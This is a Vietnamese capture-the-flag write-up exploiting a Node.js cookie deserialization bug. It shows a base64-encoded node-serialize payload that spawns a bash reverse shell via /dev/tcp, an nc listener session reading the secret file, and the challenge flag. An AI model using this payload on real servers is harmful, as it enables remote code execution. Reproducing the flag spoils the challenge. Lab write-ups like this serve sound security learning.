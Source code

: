 - Suy ra nó check đăng nhập bằng cookie => trong server phải có deserialize thì mới check login được.

- Ta sẽ viết payload để tạo 1 reverse shell cho phép ta thực thi RCE. Tham khảo payload ở đây (https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

- Đầu tiên phải serialize cái payload:

![1](img/43/Screenshot%20from%202023-01-31%2010-26-03.png)

![1](img/43/Screenshot%20from%202023-01-31%2010-26-22.png)

- Encode nó bằng base64:

```
eyJ1c2VyTmFtZSI6ImFzZCIsInBhc3NXb3JkIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2Jhc2ggLWMgXCJiYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS80NDQ0IDA+JjFcIicsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30ifQ==
```

- Đưa cái này vào cookie và refresh lại trang. Mở `nc` ta có:

```
$ nc -lvp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 212.129.38.224.
Ncat: Connection from 212.129.38.224:45970.
/bin/sh: 0: can't access tty; job control turned off
$ ls
css
flag
index.html
index.js
node_modules
package-lock.json
$ cd flag/
$ ls -la
total 12K
drwxr-xr-x 2 web-serveur-ch67 web-serveur-ch67 4,0K janv. 25 17:42 .
drwxr-s--- 5 web-serveur-ch67 web-serveur-ch67 4,0K mars  25 12:39 ..
-rwxrwx--- 1 web-serveur-ch67 web-serveur-ch67   23 janv. 25 17:42 secret
$ cat secret
Y3pS3r0d3c0mp4nY1sB4d!
$

```
- Flag: Y3pS3r0d3c0mp4nY1sB4d!
